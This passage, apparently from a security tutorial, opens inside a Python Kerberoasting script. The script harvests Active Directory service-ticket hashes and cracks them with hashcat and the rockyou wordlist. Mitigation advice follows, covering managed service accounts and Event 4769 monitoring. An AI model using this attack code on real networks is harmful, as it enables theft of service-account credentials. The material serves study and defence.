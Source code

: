 ```python
    hashes = re.findall(hash_pattern, output)
    return hashes

def crack_hashes(hash_file, wordlist):
    """Attempt to crack hashes with hashcat"""
    cmd = f"hashcat -m 13100 {hash_file} {wordlist} --force --quiet"
    subprocess.run(cmd.split())

# Usage
domain = "domain.local"
username = "user"
password = "password"
dc_ip = "192.168.1.10"

print("[+] Running Kerberoasting attack")
output = run_kerberoast(domain, username, password, dc_ip)
hashes = extract_hashes(output)

if hashes:
    print(f"[+] Found {len(hashes)} Kerberoastable hashes")
    with open("kerberoast_hashes.txt", "w") as f:
        for hash_val in hashes:
            f.write(hash_val + "\n")
    
    print("[+] Starting cracking process")
    crack_hashes("kerberoast_hashes.txt", "/usr/share/wordlists/rockyou.txt")
else:
    print("[-] No Kerberoastable hashes found")
```

## Mitigation Best Practices

### Service Account Security
```bash
# Use Group Managed Service Accounts (gMSA)
# Benefits:
# - Automatic password management
# - 120+ character passwords
# - Regular automatic rotation
# - No manual password management

# Implementation:
New-ADServiceAccount -Name gMSA-WebApp -DNSHostName webapp.domain.local -PrincipalsAllowedToRetrieveManagedPassword "WebServers$"
Install-ADServiceAccount -Identity gMSA-WebApp
```

### Monitoring Implementation
```bash
# Implement comprehensive logging
# Monitor Event ID 4769 for unusual patterns
# Set up alerts for:
# - Multiple TGS requests from single user
# - Requests for sensitive service accounts
# - RC4 encryption usage (prefer AES)

# Example monitoring query
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4769; StartTime=(Get-Date).AddHours(-1)} |
Where-Object {$_.Properties[3].Value -eq "0x17"} |  # RC4 encryption
Group-Object -Property {$_.Properties[0].Value} |
Where-Object {$_.Count -gt 5}
```
